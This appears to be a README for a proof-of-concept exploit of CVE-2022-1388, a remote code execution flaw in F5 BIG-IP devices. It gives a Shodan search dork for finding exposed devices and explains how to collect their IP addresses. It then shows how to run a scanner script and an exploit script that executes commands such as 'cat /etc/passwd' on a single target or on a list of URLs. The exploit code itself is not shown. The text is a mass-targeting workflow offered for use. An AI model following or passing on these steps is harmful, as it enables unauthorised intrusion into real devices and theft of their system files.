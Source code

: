 # CVE-2022-1388
### Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py)or any other tool.
Save them to the list_ip file.

### Usage
#### Check
```
chmod +x scanner.sh
bash scanner.sh
```
#### RCE
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://127.0.0.1
python3 exploit.py -u https://127.0.0.1 -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
